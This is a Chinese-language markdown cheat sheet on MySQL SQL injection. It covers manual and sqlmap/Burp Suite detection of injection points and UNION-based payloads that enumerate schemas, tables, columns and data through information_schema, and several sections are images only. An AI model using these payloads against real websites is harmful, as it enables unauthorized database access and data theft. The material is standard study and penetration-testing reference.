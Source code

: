 # MySQL注入
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 环境需求
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;MySQL数据库(version>=5.7)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 注入函数
![](/assets/49A439B31D3656FE1266C2809C616748.png)
![](/assets/E33220D060B048EAA19A59928F1FFA64.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 样例代码
![](/assets/83A2168FAA2CDFB87AF8716FC9F92A3B.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 关于内置库
![](/assets/618D4E32E84852266ED812F5595453FF.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 注入流程
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1.注入点识别:
```
    手工识别:  '   
              [数字型] and 1=1 / and 1=2    
              [字符型] and '1'='1 / and '1'='2
              [易过滤] and 1 like 1 / and 1 like 2
                      or 1=1 / or 1=2,注意参数要提前设置成错误参数
                  
    工具识别:  sqlmap -m filename(filename中保留检测目标)
              sqlmap -r filename(filename中为网站请求数据)
              sqlmap --crawl(sqlmap对目标网站进行爬去，然后依次测试)
              Burpsuite+SQLMap
   
    其他技巧:  出现注入点也可能在登录、搜索、留言一切产生数据交互的地方
              在参数后键入 * ,表明只对这个参数进行测试(BP中)
                
```
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2.信息收集:
![](/assets/B37DE04BFA39F1E89C6D4C24BE781008.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;3.内容获取:
```sql
   判断注入点后,联合查询法,语句末尾添加 %23 或者 --+ 进行注释
   字段长度: order by
   显示字段: union select null,null,强制报错显示字段
   查库信息: union select database(),version()
   查库: union select group_concat(schema_name) from information_schema.schemata,null
   查表: union select group_concat(table_name) from information_schema.tables where table_schema=database()
   查列: union select group_concat(column_name) from information_schema.columns where table_name=0X十六进制
   查数据: union select group_concat(null) from 库名.表名
```







